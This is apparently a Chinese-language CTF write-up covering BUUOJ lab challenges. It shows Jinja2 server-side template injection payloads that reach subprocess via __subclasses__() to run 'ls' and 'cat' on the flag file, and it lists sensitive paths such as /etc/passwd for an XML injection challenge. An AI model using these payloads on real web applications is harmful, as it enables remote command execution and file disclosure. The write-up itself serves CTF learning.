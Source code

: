 ![upload successful](./images/pasted-400.png)

![upload successful](./images/pasted-401.png)
拿下flag

# [CSCCTF 2019 Qual]FlaskLight1

![upload successful](./images/pasted-402.png)
查看源码

![upload successful](./images/pasted-403.png)
尝试url:http://61bc57dc-d4d3-4036-96e3-e61cfee053d5.node4.buuoj.cn:81/?search={{1*9}}

![upload successful](./images/pasted-404.png)
返回9，存在ssti模板注入

payload:<code>?search={{''.\_\_class\_\_.\_\_mro\_\_[2].\_\_subclasses\_\_()\[258\]('ls',shell=True,stdout=-1).communicate()[0].strip()}}</code>

![upload successful](./images/pasted-405.png)
payload:<code>/?search={{''.\_\_class\_\_.\_\_mro\_\_\[2\].\_\_subclasses\_\_()\[258\]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()\[0\].strip()}}
</code>

![upload successful](./images/pasted-406.png)
拿到flag

# [NCTF2019]True XML cookbook1（*）

![upload successful](./images/pasted-407.png)
进入页面，根据题目提示，是一个XML注入

![upload successful](./images/pasted-408.png)
抓包看下

记录一些有用的路径：<code>
/etc/hosts 储存域名解析的缓存
/etc/passwd 用户密码
/proc/net/arp 每个网络接口的arp表中dev包</code>

抓包在`/proc/net/arp`发现有用信息

![upload successful](./images/pasted-409.png)

# [RCTF2015]EasySQL1

![upload successful](./images/pasted-410.png)
这里注册一个test账户登录
